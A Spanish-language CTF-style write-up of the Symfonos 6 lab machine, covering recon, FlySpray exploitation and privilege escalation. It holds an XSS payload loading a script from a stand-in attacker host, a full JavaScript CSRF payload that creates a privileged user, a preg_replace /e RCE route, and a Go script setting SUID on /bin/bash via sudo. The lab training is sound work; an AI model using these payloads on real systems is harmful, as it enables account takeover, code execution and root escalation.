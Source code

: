 # Symfonos 6

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
FlySpray Exploitation /
Abusing FlySpray / Cross Site Scripting (XSS) /
Getting the administrator to create a new privileged user through XSS /
Information Leakage /
Gitlab Enumeration /
Abusing API + Preg_Replace to achieve RCE on the creation of a new post /
Abusing sudoers privilege (go) [Privilege Escalation] 

Te prepara para las **Certificaciones**: eWPT /
eWPTXv2 /
OSWE /
eCPPTv2 /
eCPTXv2 

![image](https://github.com/user-attachments/assets/209dae1a-8407-4cc4-95c4-9a5e899058e6)

# Reconocimiento

Aplicamos un barrido en la red local utilizando `arp-scan` para encontrar la IP de la maquina victima:
![image](https://github.com/user-attachments/assets/4f811da8-2144-4421-aa50-31cd3733c28e)
- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.



Utilizando `nmap` vemos los puertos abiertos.



![image](https://github.com/user-attachments/assets/dbcc4648-08ff-4126-8cda-afcb1d2dea2c)
- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.



![image](https://github.com/user-attachments/assets/58c43f4f-d792-4f2b-9605-a7e27c5318b0)
- `OpenSSH 7.4` -> Versión SSH desactualizada
- `PHP 5.6.40` -> Versión PHP desactualizada

Utilizando `gobuster` encontramos la carpeta **flyspray**
![image](https://github.com/user-attachments/assets/d3f4cb9e-e7a8-471c-ba33-279954cb5678)
- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe
- `--add-slash` -> Que coloque una barra al final
- `grep -v "500"` ->  No quiero ver código de estado 500

Simplemente nos registramos
![image](https://github.com/user-attachments/assets/a1b0ed98-681a-4e35-975e-a41f31258032)

---

# CSRF

Utilizaremos este **exploit** para explotarlo:

https://www.exploit-db.com/exploits/41918 

En el campo "Real Name" colocaremos ` "><script src=http://IPATACANTE/pwned.js></script>  `
![image](https://github.com/user-attachments/assets/a2c821bb-02e3-4cfc-9ae8-a8f8eaf01632)



Creamos el archivo `pwned.js`, el cual creara un usuario "hacker" y de contraseña "12345678" con privilegios **root**.

```
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Abrimos con Python el puerto 80, donde se encuentra nuestro `pwned.js`.



![image](https://github.com/user-attachments/assets/d9fb5817-56f7-4177-91c9-bb655895b98e)

Ponemos un comentario



![image](https://github.com/user-attachments/assets/2f28b883-fbdb-4f20-837a-029608be1659)



Usuario: achilles,
Contraseña: h2sBr9gryBunKdF9



![image](https://github.com/user-attachments/assets/b96c42ea-07e4-43a0-9c64-8a78a4265ea6)

Nos autenticamos como **achilles** en http://symfonos.local:3000 



![image](https://github.com/user-attachments/assets/4110883e-2d2d-4e41-95d6-5d8daa7710b0)

-----


# Explotación de api

Una vez adentro  en los repositorios de achilles, investigando vamos a ver:

Preg_replace



![image](https://github.com/user-attachments/assets/0c2556e6-e1c1-43ea-89ad-3f57331d0daf)
- ` /.*/e ` -> Una expresion regular con **Modificador e** -> vulnerable (le podes meter código php)
- `$content` -> contenido
- `"WIN"` -> una palabra

-----

### Investigando mas vamos armar esta URL api:

curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" 

Luego encontraremos que me pide un campo "username" y un campo "password".



![image](https://github.com/user-attachments/assets/335a9400-6486-436c-9680-594080a86d9c)


- ` curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}' `

- `-H` -> El Content Type para que me reconozca la data json
- `-d` -> Data en json que quiero mandar
- `username` -> campo username
- `password` -> campo password

Esto nos dará un json web token (pero no tenemos el secreto), asi que por ahora no nos sirve.
Vemos que el "id":1 -> Nos va a servir para explotar el preg_replace 



![image](https://github.com/user-attachments/assets/f5923926-b674-44f6-bc7c-9c8019f50b0c)


---

Vemos que indicando una petición por `PATCH`, y pasando el `id` (que es 1), podemos actualizar el post que esta en http://symfonos.local/posts/ 



![image](https://github.com/user-attachments/assets/c8da2743-dffe-4681-a9a6-f85f9b298fdb)

Al parecer necesitamos poner un campo "text"



![image](https://github.com/user-attachments/assets/d3b97eb3-18ab-4df5-9f8b-977a9304d1be)




Pongo en base64 este script php:



![image](https://github.com/user-attachments/assets/ee6ad1f0-b980-49c8-bc73-41822176ffc2)



![image](https://github.com/user-attachments/assets/124c5abc-5f35-4d43-95a8-1349374b4cd4)



- `file_put_contents` -> Crear un archivo y ponerle lo que quieras.

- `base64_decode` -> decodificar el  script php en base64 que hicimos

Query para ganar acceso a la maquina:



![image](https://github.com/user-attachments/assets/593c465a-c4ba-41ce-8f50-8787b5fe0dc8)
![image](https://github.com/user-attachments/assets/54833dc5-a1fa-4111-8dff-15866f1daf30)

-------

# Escalada de privilegios

Nos conectamos como achilles



![image](https://github.com/user-attachments/assets/2ff56b4e-e61e-4a46-b6a4-f269a9171b45)


Con `sudo -l` vemos que podemos ejecutar el binario `go` como root.



![image](https://github.com/user-attachments/assets/6dda3791-38b1-4c56-b0c1-734ff06084d5)


Script de `go` , para ponerle SUID a la bash

https://zetcode.com/golang/exec-command/

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

Ejecutamos con `sudo /usr/local/go/bin/go run go.go` 



![image](https://github.com/user-attachments/assets/634f37ef-7dbe-4d95-b62e-0db8308fd913)



- `go.go ` -> Nombre de mi script
- `run` -> para que inicie mi script

Flag Final:



![image](https://github.com/user-attachments/assets/f0572425-da98-4098-bc91-e878ca7193ea)
